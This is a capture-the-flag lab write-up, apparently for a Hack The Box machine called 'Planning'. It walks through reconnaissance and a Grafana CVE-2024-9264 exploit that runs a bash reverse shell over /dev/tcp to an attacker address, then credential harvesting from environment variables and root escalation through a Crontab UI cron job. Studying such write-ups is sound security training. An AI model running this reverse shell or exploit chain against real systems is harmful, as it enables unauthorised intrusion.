


# Description

Planning is an easy Linux machine that demonstrates CVE-2024-9264 to get initial access and using Crontab UI to escalate privilege.

# Recon

## nmap

Result of `nmap` scan :

```bash
# Nmap 7.95 scan initiated Sat May 31 19:26:41 2025 as: nmap -vvv -p- -T4 -sSCV -oN all_tcp_scan.txt --min-rate=1000 10.10.11.68
Warning: 10.10.11.68 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.68 (10.10.11.68)
Host is up, received echo-reply ttl 63 (0.22s latency).
Scanned at 2025-05-31 19:26:41 WIB for 95s
Not shown: 64988 closed tcp ports (reset), 545 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMv/TbRhuPIAz+BOq4x+61TDVtlp0CfnTA2y6mk03/g2CffQmx8EL/uYKHNYNdnkO7MO3DXpUbQGq1k2H6mP6Fg=
|   256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKpJkWOBF3N5HVlTJhPDWhOeW+p9G7f2E9JnYIhKs6R0
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only ports 22 and 80 are open. The `80` port is redirecting to `http://planning.htb`. Let's add it to the `/etc/hosts` file.

```bash
10.10.11.68 planning.htb
```

We have given a credential `admin:0D5oT70Fq13EvB5r` but we don't know where it is used.

# 80 - TCP

Visiting the website will only display a static page.


Let's fuzz the VHOST.

```bash
> ffuf -u http://planning.htb/ -H "Host: FUZZ.planning.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -ic -c -fs 178

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 251ms]
```

It found `grafana` subdomain, add it to the `/etc/hosts` file.

```bash
10.10.11.68 planning.htb grafana.planning.htb
```

Visiting `grafana.planning.htb` shows a login page for `Grafana`. The version is `11.0.0` can be found in the footer. This version has a [CVE-2024-9264](https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/) which has a Public PoC [Authenticated RCE Exploit](https://github.com/nollium/CVE-2024-9264). We could login to the `grafana` dashboard using the supplied credential so it's a valid credential.

```bash
python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'bash -c "bash -i >& /dev/tcp/10.10.x.x/9001 0>&1"' http://grafana.planning.htb/
```

# Shell as root at container

## Enumeration

Running `env` reveals `grafana` security admin credential.

```bash
> env
...
GF_SECURITY_ADMIN_PASSWORD=<password>
GF_SECURITY_ADMIN_USER=enzo
...
```

# Shell as enzo

## User flag

The previous credential is valid for SSH access.

```bash
enzo@planning:~$ cat user.txt
deadbeefc0bf1228235e5d40980bfake
```

## Enumeration

There is an internal service at port `8000`. The service at port `3000` is the Grafana dashboard based on the nginx configuration.

```bash
server {
    listen 80;
    server_name planning.htb;

    if ($host != "planning.htb") {
        return 301 http://planning.htb$request_uri;
    }

    root /var/www/web;
    index index.html index.htm index.php;

    location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/run/php/php8.3-fpm.sock;
    }

    location / {
        try_files $uri $uri/ =404;
    }

    access_log /var/log/nginx/access.log combined;
    error_log /var/log/nginx/error.log;
}

server {
    listen 80;
    server_name grafana.planning.htb;

    location / {
        proxy_pass http://grafana.planning.htb:3000/;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

Running a linpeas will find a `Dockerfile` at `/usr/lib/node_modules/crontab-ui/Dockerfile`. There is `docker-compose.yml` too that reveals a mapping to the port `8000`.

```bash
> cat docker-compose.yml
version: '3.7'

services:
  crontab-ui:
    build: .
    image: alseambusher/crontab-ui
    network_mode: bridge
    ports:
      - 8000:8000
```

Checking the `/opt` directory, I found a password inside `/opt/crontabs/crontab.db` file. The owner of this file is `root`. Trying the password for local `root` user didn't work. Maybe it can be used for the `crontab-ui` service. Let's use the SSH to forward the local port `8000`.

```bash
ssh -L 8000:127.0.0.1:8000 enzo@planning.htb
```

Visiting `http://localhost:8000` with credential `root:P4ssw0rdS0pRi0T3c` is working well.



We can create a new cron job to run a reverse shell. We can use the `Run now` button to run the cron job immediately.



# Shell as root

## Root flag

```bash
root@planning:/# cat /root/root.txt
cat /root/root.txt
deadbeef4402df412b17fbfebcaffake
```
